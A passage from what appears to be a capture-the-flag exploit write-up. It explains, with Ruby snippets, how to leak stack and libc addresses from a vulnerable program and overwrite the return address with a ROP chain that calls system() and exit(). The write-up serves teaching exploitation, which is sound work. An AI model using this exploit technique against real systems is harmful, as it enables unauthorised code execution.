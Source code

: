 We move the pointer way to the right so we aren't on a park of the stack that isn't going to get overwritten, then write the payload byte by byte.

### Leak a stack address

Second, we leak a stack address; starting with the last line from the previous example:

```ruby
# Go backwards - this rewinds to a point on the stack where we can reliably find
# a stack reference
s.write(LEFT * (1000 + COMMAND.length - 132))

# Read a stack address
STACK_ADDR = read_32_bits_right(s)

# Calculate where our command is, based on the known address and the 1000-byte
# offset
COMMAND_ADDR = STACK_ADDR - 0xc4 + 1000
puts "Command should be @ %x" % COMMAND_ADDR
```

From pure experimentation, I determined that the address 132 bytes from the start of the buffer is a stack address. The value points to 0xc4 bytes after the start of our buffer, so if we subtract 0xc4 then add 1000 bytes, we get a pointe to where our command is in memory. We can pass that value to `system()`, which we'll do later!

### Grab the return address

Third, we leak a libc address (specifically, the return address). Knowing one address in `libc.so.6` will let us determine any other address in `libc.so.6`! So we move up to the return address then read it:

```ruby
# Keep progressing up to the return address
s.write(RIGHT * 40)

# Read the original return address, then go back so we can overwrite it
ACTUAL_RETURN_ADDRESS = read_32_bits_right(s)
s.write(LEFT * 4)
puts 'Return address on the stack: %x' % ACTUAL_RETURN_ADDRESS

# Calculate the base address (ie, start of libc) - that'll let us figure out
# where the functions we want are
BASE_ADDRESS = (ACTUAL_RETURN_ADDRESS - RETURN_ADDRESS)
puts 'Base address: %x' % BASE_ADDRESS
```

### Overwrite the return address

And finally, we overwrite the return address (and ensuing stack addresses) with a very simple ROP chain:

```ruby
# Set up a small ROP chain to call system, then exit
write_32_bits_right(s, BASE_ADDRESS + SYSTEM) # Return address (from main())
write_32_bits_right(s, BASE_ADDRESS + EXIT) # Return address (from system())
write_32_bits_right(s, COMMAND_ADDR) # First argument to system()
write_32_bits_right(s, 0) # Return address (from exit()) - unused
write_32_bits_right(s, 0) # First argument to exit()
```
